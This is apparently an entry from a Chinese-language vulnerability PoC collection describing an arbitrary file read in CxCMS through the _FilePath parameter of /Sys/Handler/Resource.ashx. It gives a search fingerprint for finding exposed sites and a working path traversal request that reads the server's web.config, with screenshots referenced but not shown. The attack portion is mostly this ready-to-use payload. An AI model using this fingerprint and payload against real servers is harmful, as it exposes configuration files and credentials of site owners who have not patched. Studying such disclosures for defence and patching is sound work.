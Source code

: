 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>CxCMS </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered by CxCms"</a-checkbox></br>

## 漏洞复现

关键字确认CMS

![img](../../../.vuepress/public/img/1635923532626-6348c269-8042-4b83-9296-aac9516db18e.png)

验证POC

```php
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![img](../../../.vuepress/public/img/1635923602690-86a13443-0ef9-4788-8ec6-fad2b601ff7e.png)